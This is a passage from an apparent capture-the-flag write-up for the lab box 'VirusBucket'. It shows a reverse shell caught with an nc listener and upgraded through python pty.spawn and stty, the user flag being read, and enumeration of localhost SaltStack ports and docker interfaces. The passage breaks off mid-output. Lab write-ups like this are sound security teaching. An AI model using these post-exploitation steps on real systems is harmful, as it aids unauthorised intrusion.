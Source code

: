 I’ll use `python -c 'import pty;pty.spawn("bash")'` then Ctrl-z, `stty raw -echo; fg`, `reset` to get a better shell, and then grab `user.txt`:

```

tomcat@VirusBucket:~$ python3 -c 'import pty;pty.spawn("bash")'
python3 -c 'import pty;pty.spawn("bash")'
tomcat@VirusBucket:~$ ^Z
[1]+  Stopped                 sudo nc -lnvp 443
root@kali$ stty raw -echo; fg
sudo nc -lnvp 443
                 reset
reset: unknown terminal type unknown
Terminal type? screen
tomcat@VirusBucket:~$ 
tomcat@VirusBucket:~$ cat user.txt
1f07a492************************

```

## Shell as root in container

### Enumeration

Looking around the box, the home directory was basically empty. The box also limited the process list to processes that were being run by the current user, so there wasn’t much there. What got me going in the right direction was looking at the `netstat`:

```

tomcat@VirusBucket:~$ netstat -tnl 
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 127.0.0.1:35217         0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:4505          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:4506          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN     
tcp6       0      0 :::22                   :::*                    LISTEN     
tcp6       0      0 127.0.0.1:8005          :::*                    LISTEN     
tcp6       0      0 :::8080                 :::*                    LISTEN

```

There were several ports listening on localhost only. Ports 4505 and 4506 are associated with [SaltStack](https://www.saltstack.com/), an infrastructure automation platform.

I also noted that this box has multiple interfaces, including a `docker0`, which in HTB indicates containers:

```

tomcat@VirusBucket:~$ ifconfig                     
br-e9220f64857c: flags=4099<UP,BROADCAST,MULTICAST>  mtu 1500
        inet 172.18.0.1  netmask 255.255.0.0  broadcast 172.18.255.255
        ether 02:42:cb:c9:0f:ce  txqueuelen 0  (Ethernet) 
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

docker0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255
        inet6 fe80::42:75ff:fea3:764d  prefixlen 64  scopeid 0x20<link>
        ether 02:42:75:a3:76:4d  txqueuelen 0  (Ethernet) 
```